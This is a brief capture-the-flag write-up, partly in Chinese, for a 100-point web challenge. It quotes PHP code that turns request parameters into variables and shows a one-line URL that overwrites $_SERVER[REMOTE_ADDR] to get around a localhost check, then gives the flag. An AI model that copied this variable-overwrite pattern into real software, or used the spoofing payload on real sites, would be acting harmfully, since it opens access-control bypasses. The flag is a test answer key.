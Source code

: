 # Overthewire (web 100)
##### team: sblan
##### participant: 廖唯辰 (r04922161)
## Description
```
http://overthewire.hackme.cc/
```
## Solution
overthewire.txt  
```
foreach ($_REQUEST as $key => $value) {
        $$key = $value;
}

if ( $_SERVER['REMOTE_ADDR'] == '127.0.0.1' ){
    echo $flag;
} else {
    echo 'there is no space like 127.0.0.1';
}
```
顯然的變量覆蓋漏洞  
```
http://overthewire.hackme.cc/overthewire.php?_SERVER[REMOTE_ADDR]=127.0.0.1
```
得到 flag `CTF{the_world_is_not_beautiful_therefore_it_is}`  
